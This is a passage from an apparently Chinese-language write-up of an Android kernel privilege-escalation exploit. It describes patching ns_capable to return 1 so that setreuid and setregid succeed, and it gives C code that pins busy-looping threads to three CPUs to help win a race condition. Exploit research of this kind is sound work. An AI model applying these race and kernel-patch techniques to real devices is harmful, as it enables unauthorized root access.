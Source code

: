 直接 patch ns_capable 函数，让他返回 1，之后就可以成功调用 setreuid 和 setregid 了，提权成功。关于 ns_capable_addr 地址的计算请参考 [原创] CVE-2017-7533 漏洞利用。

四、漏洞优化和漏洞调试

1、为了使 client 和 server 进程更容易产生竞争。需要使两者运行在同一个 cpu 上。由于无法 sched_setaffinity mediaserver 进程的 cpuid，我们使用的方法是每个 cpu(4 核让其中 3 核忙碌起来) 起 8 个线程，并死循环耗尽 cpu。

```
void* fillCpu(void *arg)
{
        int index = *(int *)arg;
    cpu_set_t mask;
        CPU_ZERO(&mask);
        CPU_SET(index, &mask);
    pid_t pid = gettid();
    syscall(__NR_sched_setaffinity, pid, sizeof(mask), &mask);
    //printf("[+] cpu:%d, tid:%d, freeze\n", index, pid);
    while (!fillFlag)
    {
        index++;
    }
 
        return arg;
}
 
void fillOtherCpu()
{
    int cores = getCores();
    printf("[+] cpu count:%d\n", cores);
    pthread_t id_cpu1, id1_cpu1, id2_cpu1, id3_cpu1, id4_cpu1, id5_cpu1, id6_cpu1, id7_cpu1;
    pthread_t id_cpu2, id1_cpu2, id2_cpu2, id3_cpu2, id4_cpu2, id5_cpu2, id6_cpu2, id7_cpu2;
    pthread_t id_cpu3, id1_cpu3, id2_cpu3, id3_cpu3, id4_cpu3, id5_cpu3, id6_cpu3, id7_cpu3;
    int cpu1 = 0;
    int cpu2 = 2;
    int cpu3 = 3;
    pthread_create(&id_cpu1, NULL, fillCpu, &cpu1);
    pthread_create(&id1_cpu1, NULL, fillCpu, &cpu1);
    pthread_create(&id2_cpu1, NULL, fillCpu, &cpu1);
    pthread_create(&id3_cpu1, NULL, fillCpu, &cpu1);
    pthread_create(&id4_cpu1, NULL, fillCpu, &cpu1);
    pthread_create(&id5_cpu1, NULL, fillCpu, &cpu1);
    pthread_create(&id6_cpu1, NULL, fillCpu, &cpu1);
    pthread_create(&id7_cpu1, NULL, fillCpu, &cpu1);
 
    pthread_create(&id_cpu2, NULL, fillCpu, &cpu2);
    pthread_create(&id1_cpu2, NULL, fillCpu, &cpu2);
    pthread_create(&id2_cpu2, NULL, fillCpu, &cpu2);
    pthread_create(&id3_cpu2, NULL, fillCpu, &cpu2);
    pthread_create(&id4_cpu2, NULL, fillCpu, &cpu2);
    pthread_create(&id5_cpu2, NULL, fillCpu, &cpu2);
    pthread_create(&id6_cpu2, NULL, fillCpu, &cpu2);
    pthread_create(&id7_cpu2, NULL, fillCpu, &cpu2);
 
    pthread_create(&id_cpu3, NULL, fillCpu, &cpu3);
    pthread_create(&id1_cpu3, NULL, fillCpu, &cpu3);
    pthread_create(&id2_cpu3, NULL, fillCpu, &cpu3);
    pthread_create(&id3_cpu3, NULL, fillCpu, &cpu3);
    pthread_create(&id4_cpu3, NULL, fillCpu, &cpu3);
    pthread_create(&id5_cpu3, NULL, fillCpu, &cpu3);
    pthread_create(&id6_cpu3, NULL, fillCpu, &cpu3);
    pthread_create(&id7_cpu3, NULL, fillCpu, &cpu3);
    sleep(10);//让线程充分耗尽CPU
}

```